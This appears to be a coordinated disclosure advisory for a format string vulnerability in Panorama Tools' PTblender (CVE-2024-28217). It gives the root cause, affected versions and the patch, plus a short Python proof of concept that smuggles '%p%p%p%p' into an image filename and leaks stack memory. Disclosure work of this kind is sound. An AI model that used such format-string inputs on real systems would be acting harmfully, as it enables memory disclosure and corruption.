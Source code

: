```yaml
---
title: Tainted format string in Panorama Tools (CVE-2024-28217)
tags:
  - vulnerability-discovery
  - open-source
date: 2024-03-08
slug: CVE-2024-28217
---
```


# Summary

A user-controlled format string in `ReadHistograms()` in Panorama Tools' `PTblender` `0.4` through `2.9.21` allows local users to crash the program, or read and write the memory via the filename of an image.

# Root cause analysis

The `PrintError` variadic function takes a format string as the first parameter and is a proxy for `PrintErrorIntern`. The latter calls `vsnprintf(message, sizeof(message)-1, fmt, ap)`, where `fmt` can be user-controlled. The output is printed afterward in a `printf` call.

Having this in mind, one needs to call `PrintError` with a user-controlled input in order to trigger the format string vulnerability. By analysing the source code, it was deduced that the function is called in this fashion in multiple locations.

`PTblender` was leveraged as it can produce the following call trace: 
 
1. `ColourBrightness.c:ColourBrightness()`;
2. `ColourBrightness.c:ReadHistograms`; and
3. `PrintError` with a tainted argument.

`ReadHistograms` creates a `tempString2` string using `snprintf(tempString2, sizeof(tempString2)-1, "Could not open TIFF file [%s]", tempString)`. As `tempString` is user-controlled via `PTblender`'s arguments, it can contain control strings like `%s`, `%p`, and `%n`. They will be reflected in `tempString2`, which is used as an argument for `PrintError`, which triggers the format string vulnerability.

# CWEs

- CWE-134: Use of Externally-Controlled Format String

# Affected components and releases

The affected function is `ReadHistograms()` from `ColourBrightness.c`, which is called when running the `PTblender` executable.

`PTblender.c` and the vulnerable code from `ColourBrightness.c` were introduces in the revision 217. All subsequent releases after January 2006 (starting from `0.4`) are vulnerable.

The vulnerability was patched in `271b8ab4bd66` by removing the `snprintf` call before `PrintError`. The commit is embedded in the `2.9.22` release.

This being said, the versions are those between `>=0.4` and `<=2.9.21`.

# Attack vector

An attacker must control the filename of the image supplied for processing to `PTblender`.

# Impact

The format string attacks permit the attacker to interrupt `PTblender`'s functioning, read the memory of the process, or write to it.

# CVSS v3.1 vector

- Vector: `AV:L/AC:L/PR:L/UI:R/S:U/C:L/I:L/A:H`
- Base score: 6.1

# Steps to reproduce

By running the above script, an error containing the stack's content will be printed:

```python
from pwn import process, ELF
import shutil
import os

FORMAT_STRING = "%p%p%p%p"
FIRST_IMAGE_FILENAME = FORMAT_STRING + ".tiff"
SECOND_IMAGE_FILENAME = "backup.tiff"

shutil.copyfile("image.tiff", FIRST_IMAGE_FILENAME)
shutil.copyfile("image.tiff", SECOND_IMAGE_FILENAME)

p = process(
    [
        "/usr/bin/PTblender",
        "-f",
        "-p",
        "mend",
        FIRST_IMAGE_FILENAME,
        SECOND_IMAGE_FILENAME,
    ]
)

os.remove(FIRST_IMAGE_FILENAME)

output = p.recvall().decode("utf-8")
print(output)
```

A run of the exploitation script on Ubuntu 22.04 LTS outputs the following:

```bash 
$ python3 exploit.py 
[...]
PTblender Version 2.9.20 , originally written by Helmut Dersch, rewritten by Daniel M German
Output prefix 2 mend
TIFFOpen: %p%p%p%p.tiff: No such file or directory.
Could not open TIFF file [0xffffa9cbab58(nil)(nil)0x3ffffa7de4d20.tiff]
[...]
```

# Patch

## Recommended to the maintainers

As `PrintError` is intended to be called with a format string and multiple arguments, it can be gcc-annotated with `format`, such that the format argument is type checked during compilation. Please see [ gcc's documentation](https://gcc.gnu.org/onlinedocs/gcc-9.2.0/gcc/Common-Function-Attributes.html#index-Wformat-3).

## Applied by the maintainers

The vulnerability was patched in [the commit `271b8a`](https://sourceforge.net/p/panotools/libpano13/ci/271b8ab4bd662605f96969cc7362bb466d21a1d3/) by removing the `snprintf` calls before the `PrintError` ones.

The patch was made available to the users in [the `2.9.22` release](https://sourceforge.net/projects/panotools/files/libpano13/libpano13-2.9.22/).

